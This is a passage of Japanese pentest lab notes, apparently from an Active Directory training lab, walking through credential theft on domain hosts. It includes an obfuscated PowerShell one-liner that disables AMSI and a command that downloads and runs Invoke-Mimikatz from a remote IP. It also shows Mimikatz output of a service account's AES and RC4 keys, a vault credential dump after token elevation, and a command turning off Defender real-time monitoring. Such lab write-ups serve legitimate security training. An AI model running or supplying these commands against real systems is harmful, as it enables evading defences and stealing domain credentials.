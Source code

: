 
---
2. AMSIを無効にする。
```
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE') )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} ) 
```
---
3. Invoke-Mimikatzをターゲットマシンにダウンロード
```
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)

[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
  
Authentication Id : 0 ; 58866 (00000000:0000e5f2) 
Session           : Service from 0 
User Name         : svcadmin 
Domain            : dcorp 
Logon Server      : DCORP-DC 
Logon Time        : 3/3/2023 2:39:12 AM 
SID               : S-1-5-21-719815819-3726368948-3917688648-1118 
 
         * Username : svcadmin 
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL 
         * Password : (null) 
         * Key List : 
           aes256_hmac       
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8 
           rc4_md4           b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8 
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8 
[snip]
```
---
## クレデンシャル抽出(Invoke-Mimi for extracting credentials from credentials vault )
資格情報保管庫から資格情報を探すことができる。
スケジュールされたタスクに使用されるようなクレデンシャルは。**クレデンシャル・ヴォルト**に保存される。

---
1. token::elevateを使用してダンプする。
```
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 
 
[snip] 
 
mimikatz(powershell) # token::elevate 
Token Id  : 0 
User name : 
SID name  : NT AUTHORITY\SYSTEM 
 
528     {0;000003e7} 1 D 17429          NT AUTHORITY\SYSTEM     S-1-5-18        
(04g,21p)       Primary 
 -> Impersonated ! 
 * Process Token : {0;00233056} 0 D 2306311     dcorp\mgmtadmin S-1-5-21
1874506631-3219952063-538504511-1121   (09g,24p)       Primary 
```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 